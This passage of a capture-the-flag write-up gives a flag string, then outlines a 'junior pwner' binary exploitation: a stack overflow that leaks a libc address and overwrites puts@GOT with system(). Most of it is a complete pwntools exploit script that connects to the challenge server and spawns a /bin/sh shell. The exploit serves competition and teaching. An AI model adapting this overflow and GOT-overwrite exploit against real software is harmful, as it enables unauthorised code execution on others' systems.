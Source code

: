 
### flag

```
shellmates{yOu_4rE_a_true_H4CkeR}
```

## junior pwner

I'm getting too lazy to write so here's the rough idea:

- you can overflow a stack buffer and override the saved `rbp`
- use that overflow to override the `messages` array and use it to leak a `libc` address
- use the overflow again to write `/bin/sh` to the `messages` array
- override the `puts@GOT` entry with the address of `system()`
- now next time `puts` gets called we call `system()` instead, and since we overwritten all messages with `/bin/sh`, we guarantee that we pass `/bin/sh` as the first argument.

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./chall")

libc = ELF("./libc.so.6")

# p = elf.process()
p = remote("junior-pwner.bsides.shellmates.club", 443, ssl=True)
assert p

p.recvline()
pay1 = p64(elf.got['puts'])*3
pay1 += b'A'*(64-len(pay1))
pay1 += p64(0x4041c0 + 0x50)
gdb.attach(p)
p.sendline(pay1)
n = u64(p.recvline().strip().ljust(8, b'\0'))

libc.address = n - libc.symbols['puts']
log.info(f"libc@{hex(libc.address)}")

p.recv()
BINSH = next(libc.search(b'/bin/sh\0'))
log.info(f"/bin/sh @ {hex(BINSH)}")
pay2 = p64(BINSH)*3
pay2 += b'A'*(64-len(pay2))
pay2 += p64(0x4041c0 + 0x50)
p.sendline(pay2)

p.recv()

pay3 = p64(libc.symbols['system'])
pay3 += p64(libc.symbols['setbuf'])
pay3 += p64(libc.symbols['read'])
pay3 += p64(libc.symbols['srand'])
pay3 += p64(libc.symbols['memcpy'])
pay3 += p64(libc.symbols['time'])
pay3 += p64(libc.symbols['malloc'])
pay3 += p64(libc.symbols['rand'])
pay3 += b'A'*(64-len(pay3))
pay3 += p64(elf.got['puts'] + 0x50)
p.sendline(pay3)

p.interactive()
```